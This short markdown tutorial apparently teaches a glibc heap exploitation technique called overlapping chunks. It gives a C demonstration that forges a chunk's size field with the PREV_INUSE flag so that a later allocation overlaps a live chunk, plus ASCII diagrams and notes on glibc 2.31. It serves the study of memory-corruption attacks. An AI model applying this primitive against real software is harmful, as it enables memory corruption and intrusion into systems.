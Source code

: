 # Overlapping chunks version 2
> LongChampion, 18/03/2020

Yes, another overlapping attack. This attack is a bit harder than version 1, but is is easier than *poison null byte*.
```
#include <stdlib.h>
#define PREV_INUSE 0x01

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *p1, *p2, *p3, *p4, *p5;
    p1 = malloc(0x100 - 8);
    p2 = malloc(0x100 - 8);
    p3 = malloc(0x100 - 8);
    p4 = malloc(0x100 - 8);
    p5 = malloc(0x100 - 8);

    free(p4);
    struct Chunk *Header = (struct Chunk *) (p2 - 0x10);
    Header->size = 0x200 | PREV_INUSE;
    free(p2);

    p2 = malloc(0x300 - 8);
}
```
This is visualization:
> After allocation:
```
    +-------------+-------------+-------------+-------------+-------------+
    |      1      |      2      |      3      |      4      |      5      |
    +-------------+-------------+-------------+-------------+-------------+

```
> Free chunk `4`:
```
    +-------------+-------------+-------------+             +-------------+
    |      1      |      2      |      3      |             |      5      |
    +-------------+-------------+-------------+             +-------------+
```
> Change size of chunk `2`, then free it:
```
    +-------------+             +-------------+             +-------------+
    |      1      |             |      3      |             |      5      |
    +-------------+             +-------------+             +-------------+
```
> Allocate chunk `2` again (with larger size):
```
    +-------------+-------------#>>>>>>>>>>>>>#-------------+-------------+
    |      1      |      2      [   2 and 3   ]      2      |      5      |
    +-------------+-------------#<<<<<<<<<<<<<#-------------+-------------+
```

# Note
- This attack still work with **GLIBC** 2.31 (I have tested this), but doesn't work against fastbin and tcache_bin.
- Chunk `5` is important: without it we can't free chunk `4`.
- The `PREV_INUSE` flag in chunk `2` fake size is important, too.
